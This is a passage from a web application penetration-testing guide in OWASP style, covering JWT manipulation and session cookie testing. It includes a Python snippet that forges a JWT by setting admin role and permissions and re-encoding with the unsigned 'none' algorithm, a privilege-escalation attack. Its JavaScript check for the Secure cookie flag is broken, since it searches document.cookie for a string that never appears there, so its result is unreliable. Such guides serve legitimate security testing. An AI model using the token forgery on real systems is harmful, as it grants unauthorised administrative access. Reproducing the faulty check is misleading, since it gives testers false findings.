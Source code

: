 #### JWT Token Manipulation
```python
# JWT token privilege escalation
import jwt
import base64

# Decode JWT token
token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..."
decoded = jwt.decode(token, verify=False)
print(decoded)

# Modify claims
decoded['role'] = 'admin'
decoded['permissions'] = ['read', 'write', 'admin']

# Re-encode (if key is known or none algorithm)
new_token = jwt.encode(decoded, key='', algorithm='none')
```

## 6. Session Management Testing

### 6.1 Test for Session Management Schema (OTG-SESS-001)

#### Session Cookie Analysis
```http
# Session cookie security analysis
Set-Cookie: JSESSIONID=ABC123; Path=/; HttpOnly; Secure; SameSite=Strict
Set-Cookie: session=XYZ789; Domain=.target.com; Expires=Wed, 09 Jun 2021 10:18:14 GMT
```

#### Session Attributes Testing
- **HttpOnly**: Prevents XSS cookie theft
- **Secure**: HTTPS-only transmission
- **SameSite**: CSRF protection
- **Domain**: Cookie scope validation
- **Path**: Access path restrictions

### 6.2 Test for Cookies Attributes (OTG-SESS-002)

#### Cookie Security Testing
```bash
# Cookie analysis with curl
curl -I https://target.com/login -c cookies.txt
cat cookies.txt

# JavaScript cookie access testing
document.cookie  # Should be empty if HttpOnly is set
```

#### Missing Security Attributes
```javascript
// Test for missing HttpOnly
if (document.cookie.includes('sessionid')) {
    console.log('Session cookie accessible via JavaScript - Missing HttpOnly');
}

// Test for missing Secure flag over HTTPS
if (location.protocol === 'https:' && document.cookie.includes('Secure')) {
    console.log('Cookie security attributes properly set');
} else {
    console.log('Missing Secure flag on HTTPS connection');
}
```

